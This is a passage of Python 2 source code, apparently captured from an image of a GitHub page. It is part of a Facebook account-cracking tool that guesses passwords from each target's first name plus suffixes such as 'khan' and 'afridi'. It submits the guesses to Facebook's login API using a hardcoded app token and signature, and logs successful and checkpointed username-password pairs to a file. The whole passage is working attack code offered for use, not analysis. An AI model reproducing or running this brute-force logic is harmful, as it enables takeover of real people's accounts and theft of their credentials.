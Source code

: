 											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'khan'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + 'afridi'
